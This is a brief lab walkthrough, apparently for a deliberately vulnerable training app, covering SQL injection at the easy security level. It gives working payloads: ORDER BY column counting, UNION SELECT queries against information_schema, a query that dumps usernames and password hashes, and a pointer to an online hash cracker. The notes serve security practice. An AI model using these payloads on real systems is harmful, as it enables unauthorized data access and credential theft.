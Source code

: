 ## SQL injection Easy

0. Use a brower inspector to check http requests
 - Headers: HTTP Get request
 - Payload: query string parameters
 - Cookies: PHPSESSION, security level

1. Get  Error
`SELECT first_name, last_name FROM users WHERE user_id = '''`

2. Get the number of columns
`1' order by 1`
`1' order by 2`
`1' order by 3`

`Binary Search`

3. Get columns from user table
https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html
https://portswigger.net/web-security/sql-injection/cheat-sheet
`SELECT * FROM information_schema.tables`
`' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name like 'user%'#`

4. Get id & pwd
`' UNION SELECT user, password FROM users#`

5. Crack the password
crackstation





